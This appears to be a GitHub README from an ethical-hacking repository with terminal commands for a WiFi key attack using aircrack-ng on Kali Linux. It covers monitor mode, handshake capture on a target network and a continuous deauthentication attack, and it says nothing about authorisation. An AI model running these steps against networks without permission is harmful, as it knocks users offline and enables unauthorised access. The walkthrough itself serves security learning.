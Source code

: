 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon



<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/4b917857-302b-4641-9302-cde9918ce22b">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/171bdeda-8442-4751-9830-a13bcf55f7c4">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)


After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/016a13a7-d958-40a9-967a-68d11028a294">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/50cf51ff-d8b3-480c-8be4-8198d7029a59">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake
